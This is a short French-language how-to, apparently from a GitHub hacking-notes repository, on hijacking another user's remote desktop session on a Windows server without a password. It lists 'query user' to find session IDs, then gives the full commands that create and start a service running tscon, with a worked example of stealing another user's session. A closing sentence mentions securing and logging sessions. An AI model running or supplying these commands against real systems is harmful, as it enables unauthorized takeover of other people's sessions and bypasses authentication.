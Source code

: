 # Hijack session pc distant avec la faille tscon

# tscon
Cette commande est utilisée pour se connecter sur une autre session d'un PC distant (serveur par ex.).
Elle nécessite le nom de destination et l'ID de session pour s'exécuter.

# query user
Cette commande permet d'afficher la liste et informations de session de tous les utilisateurs s'ayant déjà connecté au serveur distant.
Utile ici pour récupérer le nom de destination et l'ID de session à hijacker.

# service (sc)
Cette commande permet de voler (hijacker) la session de n'importe quelle cible, sans mot de passe (password bypassing) :  
*<process_name> est le nom du service à créer (nom bidon, aucune importance, faudra juste arrêter le service avec le meme nom ensuite)*  
*<user 2_ID> est l'**ID** (numéro d'identification) de la **session-cible**, celle à hijacker*  
*<session_name> est le nom de **votre** session*  
```
sc create <process_name> binpath= "cmd.exe /k tscon <user 2_ID> /dest:<session_name>"
```

# Exemple
Commande query user à lancer dans un terminal (cmd, powershell...) :
![query user](https://github.com/Sefiria/ConseilHack/blob/4f5599508ecff62dee4d58175405257ac78a1636/Documentation/En%20vrac/res/Hijack%20session%20pc%20distant%20annexe.png?raw=true)

Exécuter ensuite la commande du paragraphe "service" ainsi que celle pour démarrer le service, exemple ici :  
*Nous sommes dans cet exemple Titi, et souhaitons voler la session de Toto*  
*<process_name> = hijack (nom du service - le nom n'a pas d'importance)*  
*<user 2_ID> = 8 (ID de la session-cible)*  
*<session_name> = rdp-tcp#1 (nom de notre session actuelle)*
```
sc create hijack binpath= "cmd.exe /k tscon 8 /dest:rdp-tcp#1"
net start hijack
```
**Félicitations, vous venez d'Hijacker une session distante via une faille de tscon exécuté par service sans mot de passe.**  
Comprenez alors l'importance de sécuriser, logger les sessions utilisateurs.  
**N'oubliez pas de stopper le service une fois avoir fini avec la commande *net stop <process_name>*** :
```
net stop hijack
```
